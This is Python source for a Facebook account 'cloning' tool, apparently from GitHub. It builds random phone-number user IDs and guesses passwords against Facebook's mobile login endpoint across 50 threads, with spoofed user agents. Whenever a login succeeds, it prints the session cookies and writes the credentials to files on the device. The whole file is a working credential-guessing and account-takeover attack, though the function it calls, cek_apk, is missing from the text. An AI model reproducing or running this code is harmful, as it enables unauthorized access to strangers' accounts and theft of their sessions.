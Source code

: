 # Facebook: Tutul King
# Github: Tutul-King
import os,sys,time,json,random,re,string,platform,base64,uuid
os.system("git pull")
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
import requests as ress
from datetime import date
from datetime import datetime
from time import sleep
from time import sleep as waktu
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures bs4==2 > /dev/null')
    os.system('pip install bs4')
    
#####APK#####
            
            
 
class jalan:
    def __init__(self, z):
        for e in z + "\n":
            sys.stdout.write(e)
            sys.stdout.flush()
            time.sleep(0.009)
            
P = '\x1b[1;97m'
M = '\x1b[1;91m'
H = '\x1b[1;92m'
K = '\x1b[1;93m'
B = '\x1b[1;94m'
U = '\x1b[1;95m' 
O = '\x1b[1;96m'
N = '\x1b[0m'    
Z = "\033[1;30m"
sir = '\033[41m\x1b[1;97m'
x = '\33[m' # DEFAULT
m = '\x1b[1;91m' #RED +
k = '\033[93m' # KUNING +
xr = '\x1b[1;92m' # HIJAU +
hh = '\033[32m' # HIJAU -
u = '\033[95m' # UNGU
kk = '\033[33m' # KUNING -
b = '\33[1;96m' # BIRU -
p = '\x1b[0;34m' # BIRU +
asu = random.choice([m,k,xr,u,b])
my_color = [
 P, M, H, K, B, U, O, N]
warna = random.choice(my_color)
now = datetime.now()
dt_string = now.strftime("%H:%M")
current = datetime.now()
ta = current.year
bu = current.month
ha = current.day
today = date.today()
os.system('xdg-open https://facebook.com/groups/554714119911648/')
logo =("""\033[0;92m
\033[1;32m╔══════════════════════════════════════════════════════════╗\033[1;93m
\033[1;32m║	         \033[1;93m ─━<🌺Assalamu Alaikum🌺>━─\033[1;32m	           ║
\033[1;32m╔══════════════════════════════════════════════════════════╗
\033[1;32m║\033[0;92m:########:'##::::'##:'########:'##::::'##:'##:::::::
\033[1;32m║\033[0;97m... ##..:: ##:::: ##:... ##..:: ##:::: ##: ##:::::::
\033[1;32m║\033[0;91m::: ##:::: ##:::: ##:::: ##:::: ##:::: ##: ##:::::::
\033[1;32m║\033[0;94m::: ##:::: ##:::: ##:::: ##:::: ##:::: ##: ##:::::::
\033[1;32m║\033[0;93m::: ##:::: ##:::: ##:::: ##:::: ##:::: ##: ##:::::::
\033[1;32m║\033[0;95m::: ##:::: ##:::: ##:::: ##:::: ##:::: ##: ##:::::::
\033[1;32m║\x1b[38;5;208m::: ##::::. #######::::: ##::::. #######:: ########:
\033[1;32m╚══════════════════════════════════════════════════════════╝
\033[1;32m╔══════════════════════════════════╗╔══════════════════════╗
\033[1;32m║NOTE : \033[37;41mTHIS TOOLS IS FREE\033[0;m\033[1;32m         ║║        \x1b[1;91m___T_\033[1;32m         ║
\033[1;33m║══════════════════════════════════║║       \x1b[1;91m| o o |\033[1;32m        ║
\033[1;34m║AUTHOR    : NIROB  KING             ║║       \x1b[1;91m|__-__|\033[1;32m        ║
\033[1;35m║══════════════════════════════════║║       \x1b[1;91m/| []|'\033[1;32m        ║
\033[1;36m║WHATSAPP  : 01730505220           ║║     \x1b[1;91m()/|___|\()\033[1;32m      ║
\033[1;37m║══════════════════════════════════║║        \x1b[1;91m|_|_|\033[1;32m         ║
\033[1;38m║GITHUB    : Nirobkingok            ║║       \x1b[1;91m|_| |_|\033[1;32m        ║
\033[1;39m║══════════════════════════════════║║                      ║
\033[1;31m║SERVER    : DATA :      WORKING   ║╚══════════════════════╝
\033[1;32m║══════════════════════════════════════════════════════════╗
\033[1;33m║FACEBOOK LINK : \x1b[1;91hhttps://www.facebook.com/nirobsurma\033[1;32m║
\033[1;34m║══════════════════════════════════════════════════════════║
\033[1;35m║PAGE: \x1b[1;91https://www.facebook.com/Abal.Not.AlLow.Okay.BrotheR\033[1;32m ║
\033[1;36m╚══════════════════════════════════════════════════════════╝\033[1;37m""") 
loop = 0
oks = []
cps = []
 
def clear():
    os.system('clear')
    print(logo)
from time import localtime as lt
from os import system as cmd
ltx = int(lt()[3])
if ltx > 12:
    a = ltx-12
    tag = "PM"
else:
    a = ltx
    tag = "AM"
    
    
try:
    print('\n\n\033[1;33mLoading asset files ... \033[0;97m')
    v = 5.2
    update = ('5.2')
    update = ('5.2')
    if str(v) in update:
        os.system('clear')
    else:pass
except:print('\n\033[1;31mNo internet connection ... \033[0;97m')
#global functions
def dynamic(text):
    titik = ['.   ','..  ','... ','.... ']
    for o in titik:
        print('\r'+text+o),
        sys.stdout.flush();time.sleep(1)
 
#User agents
ugen2=[]
ugen=[]
 
for xd in range(10000):
    aa='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['3','4','5','6','7','8','9','10','11','12','13','14','15','16','17'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=(f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}')
    ugen.append(uaku2)
    
# APK CHECK
def xxr():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    print(logo)
    print(f' [{xr}^{x}] Example>: {xr}019,017,018,92302,92301,91778{x}')
    print(" ══════════════════════════════════════════")
    rk1 = '0171'
    rk2 = '0172'
    rk3 = '0175'
    rk4 = '017'
    code = random.choice([rk1,rk2,rk3])                      # input(f' [{xr}■{x}] Choose : ')
    os.system('clear')
    print(logo)
    limit = int(input(f'\033[0;97m[{xr}^{x}]\033[0;92m EXAMPLE : \033[0;93m10000, \x1b[38;5;208m20000, \033[0;92m50000 ] \n\033[0;95m═════════════════════════════════════════ \n\033[0;97m[{xr}^{x}] \033[0;92mPUT CLONING LIMIT:\033[0;93m '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    os.system("clear")
    print(logo)
    passx = 0
    HamiiID = []
    print("")
    for bilal in range(passx):
        pww = input(f"[*] Enter Password {bilal+1} : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=50) as manshera:
        clear()
        tl = str(len(user))
        jalan('\033[1;97m====================================================')
        jalan(f'[{xr}^{x}]\x1b[38;5;208m YOUR TOTAL IDS: {xr}'+tl)
        jalan(f'{x}[{xr}^{x}]\033[0;92m PLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')
        jalan(f'\033[0;97m[{xr}^{x}]\033[0;93m USE YOUR MOBILE DATA ')
        jalan(f'\033[0;97m[{xr}^{x}] \x1b[38;5;208mUse Flight Mode For Speed Up')
        jalan(f'\033[0;97m[{xr}^{x}] \033[0;95mSuper Fast Speed Cloning')
        jalan('\033[1;97m====================================================')
        for love in user:
            pwx = [love[1:]]
            uid = code+love
            for Eman in HamiiID:
                pwx.append(Eman)
                pwx.append(love)
            manshera.submit(rcrack,uid,pwx,tl)
    print(f"\n{x} ══════════════════════════════════════════")
def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://mbasic.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {"authority": 'mbasic.facebook.com',
            "method": 'GET',
            "scheme": 'https',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
            'cache-control': 'max-age=0',
            'sec-ch-ua': '"Chromium";v="107", "Not=A?Brand";v="24"',
            'sec-ch-ua-mobile': '?1',
            'sec-ch-ua-platform': '"Android"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'none',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent': pro}
            lo = session.post('https://mbasic.facebook.com/login/device-based/login/async/?refsrc=deprecated&lwv=100',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('\r\r\033[1;32m[NIROB-OK💚] \033[1;32m'+uid+'\033[1;32m • \033[1;32m' +ps+    '  \n[‎‎🌺]\033[0;93m COOKIE = \033[1;32m'+coki+  '  ''  \033[0;97m')
                cek_apk(session,coki)
                open('/sdcard/Tutul-OK.txt', 'a').write( uid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                #print('\r\r\33[1;30m[Tutul-CP] ' +uid+ ' • ' +ps+           '  \33[0;97m')
                open('/sdcard/Tutul-CP.txt', 'a').write( uid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\r%s{x}[{xr}Tutul{x}][%s\%s][OK:{xr}%s{x}]'%(H,loop,tl,len(oks))),
        sys.stdout.flush()
    except:
        pass
 
xxr()
 
